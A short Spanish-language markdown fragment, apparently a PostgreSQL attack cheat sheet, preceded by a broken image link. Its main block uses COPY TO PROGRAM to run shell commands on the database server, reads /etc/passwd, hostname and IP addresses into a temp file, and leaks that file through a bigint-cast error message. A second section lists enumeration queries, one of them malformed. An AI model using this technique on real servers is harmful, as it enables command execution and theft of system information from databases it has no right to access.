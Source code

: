 


### Ejecutar bash con el comando copy y obtener información valiosa del servidor 
```
COPY ( select '' ) TO PROGRAM 'cat > /tmp/data.txt && cat /etc/passwd >> /tmp/data.txt  && echo $(hostname -I ) - $(hostname) >> /tmp/data.txt &&  paste -s -d, - < /tmp/data.txt  > /tmp/test2.txt';

--- El contenido del passwd se te mostrara en la primera linea que dice "ERROR:  invalid input syntax for type bigint:"
COPY cat_prueba from  PROGRAM 'cat /tmp/test2.txt';
```


###  Técnica  de verificación de versiones:
```
select now();
select string_agg()
select current_database();
```
